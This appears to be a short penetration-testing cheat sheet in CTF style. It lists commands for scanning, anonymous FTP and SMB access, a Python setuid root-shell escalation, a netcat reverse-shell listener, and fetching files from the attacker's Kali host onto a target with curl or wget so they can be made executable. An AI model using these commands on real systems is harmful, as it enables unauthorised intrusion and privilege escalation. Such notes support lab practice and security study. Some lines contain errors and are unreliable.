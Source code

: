

# ENUMERATION

## Basic NMAP Scan (Run on KALI)
nmap -sC -sV

## Basic GoBuster Directory Scan (Run on KALI)
gobuster dir --url http://[TARGET_IP]/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php

# FOOTHOLD

## FTP Anonymous Access (Run on KALI) (Linux or Windows)
ftp [IP] -> anonymous:anonymous

## SMB Client (Run on KALI) (Linux or Windows)
smbclient -N -L \\\\[TARGET_IP]\\
-N : No password
-L : This option allows you to look at what services are available on a server

# ON-SITE RECON

## WINPEAS

## LINPEAS

# PRIVILEGE ELEVATION

## For Vulnerable Python (Run on TARGET)
/usr/bin/python[version]
import os
os.setuid(0)
os.system("/bin/bash")

## Reverse Shell (Run on KALI)
nc -lvnp 1234

## HTTP Server (Run on KALI)
sudo python3 -m http.server 80

## File Pull from HTTP Server (Run on TARGET)
curl http://[KALI IP]/[filename] (Linux)
wget http://[KALI IP]/[filename] (Windows)

## Make Script File Executable (Run on TARGET) (Linux)
chmod +x [filename]

# Exploitation

## Write file to console (Windows)
filename [filename]

## Write file to console (Linux)
cat [fileneame]

## Search Files for String (Linux)
cat * | grep -i [string]*
